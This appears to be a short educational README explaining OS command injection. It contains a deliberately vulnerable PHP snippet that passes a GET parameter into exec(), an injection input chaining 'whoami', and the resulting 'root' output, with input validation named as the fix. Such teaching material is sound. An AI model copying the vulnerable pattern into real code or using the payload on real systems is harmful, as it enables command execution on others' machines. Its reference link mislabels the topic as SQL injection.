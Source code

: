 <p align="center"> <img src="https://raw.githubusercontent.com/qeeqbox/os-command-injection/main/os-command-injection.png"></p>

A threat actor may inject arbitrary operating system (OS) commands on target

## Example #1
1. Threat actor crafts a malicious request to a vulnerable target
2. The target process the malicious request and returns the result

## Code
#### Target-Logic 
```js
...
<?php
$result = exec("ping -c4 ".$_GET["ip"]);
echo($result)
?>
...
```

#### Target-In
```
x 2>/dev/null || whoami
```

#### Target-Out
```
root

```

## Impact
High

## Names
- Command Injection

## Risk
- Read & write data
- Command execution

## Redemption
- Input validation

## ID
154d5db5-9614-42f9-9898-3355a7b7848f

## References
- [wiki](https://en.wikipedia.org/wiki/sql_injection)
